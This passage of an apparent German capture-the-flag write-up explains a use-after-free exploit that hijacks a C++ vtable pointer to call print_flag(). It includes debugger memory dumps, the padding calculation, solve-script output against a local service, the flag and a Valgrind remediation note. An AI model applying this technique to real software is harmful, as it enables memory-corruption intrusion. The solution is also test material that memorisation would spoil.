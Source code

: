 Die eigentliche Exploitation ist nun, dass `data = new char[len_stdin];` auf den Heap geschrieben wird.
Hier kann angesetzt werden, indem die Zieladresse auf `0x0000000000403d80 - 0x8 = 0x0000000000403d78` gesetzt wird. So wird aufgrund des Offsets in der vtable von `0x8` anschließend die Funktion an der Adresse `0x0000000000401578` aufgerufen. Dies ist die Adresse von `print_flag()`.

```
0x403db0 <_ZTI3LKW>:    0x00007ffff7fa2c70      0x00000000004020fb
gef➤  x/4xg 0x0000000000403d78
0x403d78 <_ZTV3Bus+8>:  0x0000000000403dc8      0x0000000000401578
0x403d88 <_ZTV3Bus+24>: 0x0000000000401734      0x0000000000000000
gef➤  x/4xg 0x0000000000401578
0x401578 <_ZN7Vehicle10print_flagEv>:   0x30ec8348e5894855      0x7e058d48d87d8948
0x401588 <_ZN7Vehicle10print_flagEv+16>:        0x48e045894800000a      0x894800000a7c058d
```

Die Heapgröße ist 0x30 (48) Byte. Die geschriebene Adresse `0x0000000000403d78` ist 8 Byte groß. Entsprechend wird ein Padding von 40 Byte benötigt.

Die Lösung mittels des Skriptes [`solve.py`](./solve.py):

```
python ./solve.py
Verbinden zu localhost:54321...
[+] Opening connection to localhost on port 54321: Done
b'1. Allokieren\n2. Ausgeben\n3. Loeschen\n'
Sende 3...
b'Fahrzeuge geloescht\n1. Allokieren\n2. Ausgeben\n3. Loeschen\n'
Sende 1...
Senden der Laenge des Inputs...
Senden der payload...
b'Daten allokiert\n1. Allokieren\n2. Ausgeben\n3. Loeschen\n'
Sende 1...
Senden der Laenge des Inputs...
Senden der payload...
b'Daten allokiert\n1. Allokieren\n2. Ausgeben\n3. Loeschen\n'
Sende 2...
b'DBH{j3d3r_m46_bu553}'
[*] Closed connection to localhost port 54321
```

## Beseitigung der Schwachstelle

Eine Lösungsmöglichkeit wäre hier während der Entwicklung Memory Error Detections wie Valgrind[^2] zu verwenden, um solche Fehler frühzeitig zu erkennen.

## Flag
```
DBH{j3d3r_m46_bu553}
```

## Basierend auf / Inspiriert von


[^1]: github.io [https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/](https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/)
[^2]: valgrind.org: [https://valgrind.org/](https://valgrind.org/)
[^3]: medium.com: [https://corruptedprotocol.medium.com/uaf-writeup-pwnable-use-after-free-862dec0377ae](https://corruptedprotocol.medium.com/uaf-writeup-pwnable-use-after-free-862dec0377ae)
[^4]: pwnable.kr: [https://pwnable.kr](https://pwnable.kr/)